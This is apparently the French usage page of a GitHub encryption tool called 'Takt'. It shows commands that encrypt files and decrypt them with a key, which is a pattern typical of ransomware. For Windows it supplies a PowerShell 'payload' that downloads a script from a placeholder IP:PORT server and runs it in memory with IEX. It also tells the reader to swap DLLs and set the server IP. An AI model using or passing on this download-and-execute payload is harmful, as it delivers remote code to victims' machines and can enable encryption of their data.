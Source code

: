 **Comment l'utiliser 🕹 :**

**Linux :**

Pour chiffrer 

```bash
./main

ou

go run main.go
```

Pour déchiffrer

```bash
./main --decrypt + clé

ou

go run main.go --decrypt + clé
```

**Windows :**

Windows + R 

Exécuter ce payload 

```powershell
IEX (New-Object Net.WebClient).DownloadString('IP:PORT/B.ps1'); B
```

N'oubliez pas de changer le nom du DLL en fonction de l'action (chiffrer / déchiffrer), et à le changer dans le PS1 en + de changer l'ip du serveur.

---

**➔ Suite :** [Analyse](https://github.com/TomF0x/Takt/blob/master/Documentation/Analyse.md)

**➔ Informations :** [README](https://github.com/TomF0x/Takt/blob/master/README.md)
